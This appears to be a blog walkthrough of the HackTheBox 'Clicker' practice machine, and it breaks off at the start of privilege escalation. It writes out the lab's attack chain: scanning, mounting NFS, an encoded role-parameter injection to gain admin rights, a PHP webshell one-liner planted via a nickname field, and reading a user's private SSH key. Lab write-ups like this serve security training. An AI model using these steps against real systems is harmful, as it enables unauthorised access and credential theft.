+++ 
draft = false
date = 2023-11-27T13:07:16+01:00
title = "Clicker HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Gabriel"]
tags = []
categories = []
externalLink = ""
series = []
+++


The Clicker HTB machine is a medium difficulty level HackTheBox Machine. The main techniques used to crack this machine are:

    - SQL Injection
    - CRLF Injection
    - Parameter Tampering
    - PHP Reverse Shell
    - Perl_startup Local Privilege Escalation


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.232 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:



It looks like there is a lot of open ports. Now we run another NMAP scan, now with the intent of discovering what services are running on these ports.

```sh
sudo nmap -sCV -p22,80,111,2049,36995,45521,48513,50555,54721 10.10.11.232 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:



The usuall SSH and HTTP ports are open. Now lets try to enumerate subdirectories via brute force with Feroxbuster. First, we add the website to our /etc/hosts file and then we run the following command:

```sh
feroxbuster -u http://clicker.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```



We discover a "exports" subdirectory, wich will be useful in the future. Now, lets access the webpage and see what is there.


We can make an account, play the game and it saves our high score.



Now, lets go back and revisit port 2049. It looks like there is a NFS and file sharing service running. We can try to access the files by copying and mounting the volume. First, we make a directory in /mnt/ by running:

```sh
mkdir -p /mnt/nfs_file_shares
```

Then we try to mount the volume by using the mount command:

```sh
mount -o nolock 10.10.11.232:/ /mnt/nfs_ile_shares
```

There is a backup.zip file in the mounted volume



## Initial access

In this zip file there is the source code to the clicker game and web page. Inspecting the file authenticate.php, we can see that there is a parameter called role, which can be set to Admin:

```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_POST['username']) && isset($_POST['password']) && $_POST['username'] != "" && $_POST['password'] != "") {
        if(check_auth($_POST['username'], $_POST['password'])) {
                $_SESSION["PLAYER"] = $_POST["username"];
                $profile = load_profile($_POST["username"]);
                $_SESSION["NICKNAME"] = $profile["nickname"];
                $_SESSION["ROLE"] = $profile["role"];
                $_SESSION["CLICKS"] = $profile["clicks"];
                $_SESSION["LEVEL"] = $profile["level"];
                header('Location: /index.php');
        }
        else {
                header('Location: /login.php?err=Authentication Failed');
        }
}
?>
```

The contents of export.php also gives us a hint that there is a role named "Admin"

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}

function random_string($length) {
    $key = '';
    $keys = array_merge(range(0, 9), range('a', 'z'));

    for ($i = 0; $i < $length; $i++) {
        $key .= $keys[array_rand($keys)];
    }

    return $key;
}

$threshold = 1000000;
if (isset($_POST["threshold"]) && is_numeric($_POST["threshold"])) {
    $threshold = $_POST["threshold"];
}
$data = get_top_players($threshold);
$currentplayer = get_current_player($_SESSION["PLAYER"]);
$s = "";
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
} elseif ($_POST["extension"] == "json") {
  $s .= json_encode($currentplayer);
  $s .= json_encode($data);
} else {
  $s .= '<table>';
  $s .= '<thead>';
  $s .= '  <tr>';
  $s .= '    <th scope="col">Nickname</th>';
  $s .= '    <th scope="col">Clicks</th>';
  $s .= '    <th scope="col">Level</th>';
  $s .= '  </tr>';
  $s .= '</thead>';
  $s .= '<tbody>';
  $s .= '  <tr>';
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>'; 
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

So we try to add the parameter 'role=Admin' in the request. 



However, the script wont let us, obviously.



Lets try to break this check. Investiganting the strtolower() function used to make the comparison, it is vulnerable to CRLF injection (https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a). Now when we inject 'role%0d%0a=Admin', it doesnt display that message.



Now we log out and log in, and a new Administration panel now shows up.



Here we can check and export high scores. It saves it on the machine. I wonder if we can somehow upload a php webshell.



Inspecting the request sent by clicking Export, there is a parameter called 'extension'. 



Modifying it, we can change the extension to php.


And it works! Checking out the file:



Now, lets look again at the contents of export.php:

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}

function random_string($length) {
    $key = '';
    $keys = array_merge(range(0, 9), range('a', 'z'));

    for ($i = 0; $i < $length; $i++) {
        $key .= $keys[array_rand($keys)];
    }

    return $key;
}

$threshold = 1000000;
if (isset($_POST["threshold"]) && is_numeric($_POST["threshold"])) {
    $threshold = $_POST["threshold"];
}
$data = get_top_players($threshold);
$currentplayer = get_current_player($_SESSION["PLAYER"]);
$s = "";
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
} elseif ($_POST["extension"] == "json") {
  $s .= json_encode($currentplayer);
  $s .= json_encode($data);
} else {
  $s .= '<table>';
  $s .= '<thead>';
  $s .= '  <tr>';
  $s .= '    <th scope="col">Nickname</th>';
  $s .= '    <th scope="col">Clicks</th>';
  $s .= '    <th scope="col">Level</th>';
  $s .= '  </tr>';
  $s .= '</thead>';
  $s .= '<tbody>';
  $s .= '  <tr>';
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>'; 
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

We can see that it takes the 'nickname' parameter when executing the code. Lets try and instert this snippet of php to get RCE into the nickname parameter

```php
<?php system($_GET['cmd']);?>
```



Now we export it as php. When accessing the export with the parameter cmd=id, we can see that the command was executed successfully.



Now we try to establish a reverse shell:



And we get the reverse shell.



## Execution & Persistence

Doing some enum, we find the following files in /opt/manage:



File README.txt contains the usage of the bin execute_query. But maybe there are more options than just 4:



If we try ./execute_query 5 



Maybe its expecting some arguments. Lets try some things:



Trying more things, it looks like this binary can read files, so lets read the SSH key.



Checking /home/users, we can see this can be only jack's private ssh key. Formatting it correctly (correct heather and footer, and new line at the end), we can ssh to user jack and get the user flag.



## Privilege escalation

Now lets look for privilege escalation methods. Lest start with sudo -l:



We can run the script /opt/monitor.sh as root. Checking the script:



It uses /bin/bash and /bin/xml_pp. Lets see what is /bin/xml_pp

